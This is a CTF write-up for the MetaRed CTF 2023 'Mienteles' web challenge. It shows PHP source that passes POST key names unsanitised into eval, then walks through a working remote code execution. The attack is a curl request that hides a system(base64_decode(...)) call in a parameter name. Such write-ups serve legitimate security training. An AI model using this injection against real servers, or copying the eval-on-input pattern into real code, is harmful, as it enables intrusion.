 # MetaRed CTF 2023 - Mienteles

<figure><img src="../../.gitbook/assets/image (1) (1).png" alt=""><figcaption></figcaption></figure>

In this challenge we given the source code, let's just see the source code.

```php
 <?php

if(isset($_GET['src'])){
    highlight_file(__FILE__);
    die();
}
?>
<!DOCTYPE html>
<html lang="es">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Mienteles Telecomunicaciones</title>
    
    <link rel="stylesheet" href="https://stackpath.bootstrapcdn.com/bootstrap/4.3.1/css/bootstrap.min.css">
</head>
<body>
    
    <nav class="navbar navbar-expand-lg navbar-dark" style="background-color:#005F9F">
        <a class="navbar-brand">Mienteles</a>
        <button class="navbar-toggler" type="button" data-toggle="collapse" data-target="#navbarNav" aria-controls="navbarNav" aria-expanded="false" aria-label="Toggle navigation">
            <span class="navbar-toggler-icon"></span>
        </button>
        <div class="collapse navbar-collapse" id="navbarNav">
            <ul class="navbar-nav">
                <li class="nav-item active">
                    <a class="nav-link" href="#">Inicio</a>
                </li>
                <li class="nav-item">
                    <a class="nav-link" href="#">Servicios</a>
                </li>
                <li class="nav-item">
                    <a class="nav-link" href="#">Contacto</a>
                </li>
            </ul>
        </div>
    </nav>

    
 
    <div class="text-center">
        <img src="./mienteles.svg" alt="">
    </div>
    
    <section class="py-5">
        <div class="container">
            <h2 class="text-center">Nuestros Servicios</h2>
            <div class="row">
                
                <div class="col-md-4">
                    <div class="card">
                        <img src="servicio1.jpg" class="card-img-top" alt="Servicio 1" style="height:518px">
                        <div class="card-body">
                            <h5 class="card-title">Bug Bounty Program</h5>
                            <p class="card-text">Tenemos publicado nuestro programa de Bug Bounty. Si encuentras un RCE, no te pagamos :).</p>
                        </div>
                    </div>
                </div>
                
                <div class="col-md-4">
                    <div class="card">
                        <img src="servicio2.jpg" class="card-img-top" alt="Servicio 2" style="height:518px">
                        <div class="card-body">
                            <h5 class="card-title">Internet</h5>
                            <p class="card-text">Tenemos planes de internet para usted</p>
                        </div>
                    </div>
                </div>
                
                <div class="col-md-4">
                    <div class="card">
                        <img src="servicio3.jpg" class="card-img-top" alt="Servicio 3"  style="height:518px">
                        <div class="card-body">
                            <h5 class="card-title">Flag</h5>
                            <p class="card-text">Aquí estará tu flag: </p>
                            <!-- Accede a ?src -->
                            <?php
                                error_reporting(0);
                                if ($_POST['keyl']==md5(date('Y-m-d'))){
                                            foreach($_POST as $name => $value){        
                                                $assign = "\$" . $name . "='".preg_replace('([^A-Za-z0-9@. _-])', '', $value)."';";
                                                eval($assign);
                                            }
                                }
                                else{
                                    echo "No podes hackearme";
                                }

                            ?>
                        </div>
                    </div>
                </div>
            </div>
        </div>
    </section>

    
    <footer class="footer text-white text-center py-3" style="background-color:#005F9F">
        <div class="container">
            <p>&copy; 2023 Mienteles Telecomunicaciones. Todos los derechos reservados.</p>
        </div>
    </footer>

    
    <script src="https://code.jquery.com/jquery-3.3.1.slim.min.js"></script>
    <script src="https://stackpath.bootstrapcdn.com/bootstrap/4.3.1/js/bootstrap.min.js"></script>
</body>
</html>

```

From the source code, we know that to get the flag we need to do post request with key keyl which is must to be equal to \`md5(date('Y-m-d'))\`.

We know using md5 function potential to hash collision and in the code the program is md5 hashed date of current date, which mean it's easy to get the hash by using php to do md5 hash.

{% code title="md5.php" lineNumbers="true" %}
```php
<?php
    echo md5(date('Y-m-d'));
?>
```
{% endcode %}

And then in local i created replicated php code like on server.

{% code title="index.php" lineNumbers="true" %}
```php
<?php
    if ($_POST['keyl']==md5(date('Y-m-d'))){
                foreach($_POST as $name => $value){        
                    $assign = "\$" . $name . "='".preg_replace('([^A-Za-z0-9@. _-])', '', $value)."';";
                    echo $assign;
                    eval($assign);
                }
    }
    else{
        echo "No podes hackearme";
    }
?>
```
{% endcode %}

And just run the index.php and used result from md5.php as value of key \`keyl\` post data.

<figure><img src="../../.gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>

As you can see, the local server return with `$keyl='6bde8c88ffee17ea27c8e281299dcf47';` which our post data is set as variable and value in php and based on the source code, the result will used in `eval` function which is we know the `eval` function is evil.

Then i try add more post data and if i try to called function system as post value, our input got cleaned.

<figure><img src="../../.gitbook/assets/image (3) (1).png" alt=""><figcaption></figcaption></figure>

After try a few times, i realized if we can manipulate the key post data. For basic i try add \`'\` in key value and i got something interesting.

<figure><img src="../../.gitbook/assets/image (4) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (5) (1).png" alt=""><figcaption></figcaption></figure>

The result return with `$cmd'` and the local server is crashed/error. which maybe we can get remote code execution from it, after try a few times finaly i can make the local server return with proper php code and the local server is not crashed/error.

<figure><img src="../../.gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>

But we have problem, if we try to run command with space it will replace it with `_` .

<figure><img src="../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

But we can bypass it by base64 encoded the command.

<figure><img src="../../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>

and we can try it on server using below command.

```sh
curl -X POST https://mienteles.ctf.cert.unlp.edu.ar/ --data "keyl=6bde8c88ffee17ea27c8e281299dcf47&cmd;system(base64_decode('bHMgLWxhCg'));//'=12);"
```

And we successfully get remote code execution.

<figure><img src="../../.gitbook/assets/image (12).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (13).png" alt=""><figcaption></figcaption></figure>

Flag: flag{N1c3!No\_B0untY\_But\_Th1s\_1s\_ur\_fl4G}
